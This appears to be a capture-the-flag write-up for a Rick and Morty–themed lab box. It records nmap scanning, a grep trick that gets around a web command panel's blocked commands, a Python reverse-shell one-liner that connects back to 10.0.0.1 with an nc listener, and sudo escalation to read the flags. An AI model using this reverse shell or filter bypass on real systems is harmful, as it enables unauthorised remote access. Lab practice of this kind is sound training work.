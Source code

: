 export boxIP=10.10.208.200

# http://10.10.208.200
```
Username: R1ckRul3s
```

# nmap

```
nmap -sC -sV -oN nmap/initial $boxIP       
[...]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
[...]
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# gobuster

```

```

# /robots.txt
```
Wubbalubbadubdub
```

# /login.php
There is a command panel, with echo, head, tail, cat disabled, so
```
grep * -f <file>
```
Got us a first flag
```
mr. meeseek hair
```

# reverse shell
On attack box
```
nc -lnvp 2137
```
On target
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",2137));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Let's check our priviledges
```
$ sudo -l
[...]
    (ALL) NOPASSWD: ALL
```
Great! Let's find rest of the flags:
```
sudo find / -name *ingred*
---------------------
cat /home/rick/*
```
here we found second ingredient
```
1 jerry tear
```
For the 3rd igredient it was just a matter of using right words. No *ingr*, no *third*, but
```
sudo find / -name *3rd* 2>/dev/null
```
worked and showed us a *3rd.txt* file in the /root, so we *sudo cat* it for last ingredient:

```
fleeb juice
```